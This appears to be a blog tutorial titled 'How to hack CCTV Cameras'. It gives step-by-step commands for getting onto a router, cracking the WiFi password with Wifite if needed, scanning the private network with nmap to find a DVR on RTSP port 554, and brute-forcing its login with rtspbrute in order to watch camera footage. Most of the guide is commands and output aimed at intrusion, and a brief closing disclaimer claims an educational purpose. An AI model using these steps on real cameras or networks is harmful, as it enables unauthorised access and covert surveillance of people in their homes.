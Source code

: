 ```yaml
---
title: How to hack CCTV Cameras
author: Krish Vishwakarma
tags: [hacking, cctv]
categories: [Tutorial, Hacking]
date: 2023-12-29 14:54:00 +0530
---
```


## Objective

Our objective is to find vulnerability in CCTV cameras which are hosted online.

## Requirements

- Terminal/Termux
- Nmap
- Python
- rtspbrute

## Structure

![Desktop View](/assets/img/cctv-structure.png){: width="972" height="589" }
_Structure of CCTV_

The CCTV camera is connected to DVR, and DVR is connected to the router.

## Let's Go

First of all we have to connect to the router, if you don't know the password you can use 
<b>Wifite</b> or any other tool , After connecting to the router, open your terminal and install nmap using following command: 
```bash
pkg install nmap
```

After installation , our next step is to find the ip of DVR , but before we continue a few things need to be remembered:

| Service | Protocols | Port |
|---|---|---|
| TCP | TCP | 25001 |
| UDP | UDP | 25002 |
| HTTP | TCP | 80 |
| HTTPS | TCP | 443 |
| _RTSP_ | _TCP/UDP_ | _554_ |
| SNMP | UDP | 161 |
| SMTP | TCP | 25 |
| FTP | TCP | 21 |


The most important protocol is rtsp protocol this is the protocol on which the CCTV camera works.
<br> After this we need to find the IP address of DVR enter this command in your terminal:
```bash
  $ nmap 192.168.0.0/16
```

This code will scan all ip's between 192.168.0.0 to 192.168.255.255.

### Output

```
# nmap 192.168.0.0/16
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-06 21:00 CET
Nmap scan report for Archer.lan (192.168.0.22)
Host is up (0.0046s latency).
Not shown: 995 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
1900/tcp  open  upnp
20005/tcp open  btx
554/tcp   open  rtsp
MAC Address: 50:ff:BF:ff:ff:AC (Tp-link Technologies)

Nmap done: 1 IP address (1 host up) scanned in 5.92 seconds
```
> Read also : https://en.m.wikipedia.org/wiki/Private_network

Here we got a list of connected networks, as we can see only one network is connected i.e. 
`192.168.0.22` and it's DVR's IP address for sure.Now guess what, if we input that ip in aur browser, it'll take up to the login panel of cctv camera streaming, now the **GAME IS OVER** , we just need to bruteforce on the admin panel and then we can see camera footage with our own eyes.
## Bruteforcing Admin Panel
Now, we'll install **rtspbute** which is a bruteforcing tool for cctvs under rtsp protocol.
> See here : https://pypi.org/project/rtspbrute/

Now run the command in your terminal: `pip install rtspbrute`
### Requirements
- python (> 3.6)
- av
- Pillow
- rich

Now make a file named `hosts.txt` and write the IP address of DVR and save it, then run the following command :
```
$ rtspbrute -t hosts.txt -p 554 -d
```
-t means the target ip's in filename hosts.txt and -d means debug logs.

## Well Done
You'll get the username & password, you rocked up, now login and get the Public IP and then see everything sitting in your house. Bye Bye everyone we'll come again with more hacking tutorials, See you in the next one till then peace 🕊️.



## Warnning

This article is only for education purpose . Aim of these article is that how can secure cctv cameras using strong passwords. Do not use for criminal or another black art purpose. I am not responsible for that.